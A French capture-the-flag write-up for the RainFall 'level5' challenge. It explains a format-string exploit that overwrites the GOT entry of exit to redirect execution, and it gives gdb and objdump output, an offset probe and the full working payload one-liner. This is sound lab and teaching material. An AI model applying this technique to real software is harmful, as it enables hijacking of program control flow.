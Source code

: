 # Solution : 

```
(python -c 'print("\x38\x98\x04\x08" + "%134513824x" + "%4$n")'; cat) | ./level5
```

## Explication du level

Ici le niveau est le meme que les precedent sauf que au lieu d'utiliser un printf format exploit, pour ecrire dans une variable ou autre on va directment overwrite l'adresse d'une fonction de la libc , "exit" son adresse se situe dans la global offset table (GOT).

------------------------------------------------------------------------------------------------
Adresse de o :

level5@RainFall:~$ gdb ./level5 
(gdb) p &o
$1 = (<text variable, no debug info> *) 0x80484a4 <o>

------------------------------------------------------------------------------------------------

Adresse de exit dans la Got (global offset table) :

Technique 1 : 

level5@RainFall:~$ objdump -R level5 

level5:     file format elf32-i386
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main

Technique 2 :

level5@RainFall:~$ gdb ./level5

(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0x08048390  _exit
0x08048390  _exit@plt
0x080483d0  exit
0x080483d0  exit@plt

(gdb) x/i 0x080483d0
   0x80483d0 <exit@plt>:	jmp    *0x8049838

------------------------------------------------------------------------------------------------
On recupere l'offset :

level5@RainFall:~$ python -c 'print("AAAA" + " %p " * 8)'| ./level5 
AAAA 0x200  0xb7fd1ac0  0xb7ff37d0  0x41414141  0x20702520  0x20702520  0x20702520  0x20702520

On converti l'adresse o en decimal : 

En hexadecimal  : 0x80484a4
En decimal      : 134513828

------------------------------------------------------------------------------------------------

## Payload
On cree notre payload :

Offset : 4
Adresse de o : 0x80484a4 || 134513828
Adresse de exit dans la GOT : 0x8049838

[Adress de exit dans la got] + [Padding pour overwrite a l'adresse de o] + [Argument que l'on veut overwrite]

(python -c 'print("\x38\x98\x04\x08" + "%134513824x" + "%4$n")'; cat) | ./level5

On retire 4 a l'adresse de o, pour que adresse de exit + 134513824 = adresse de o
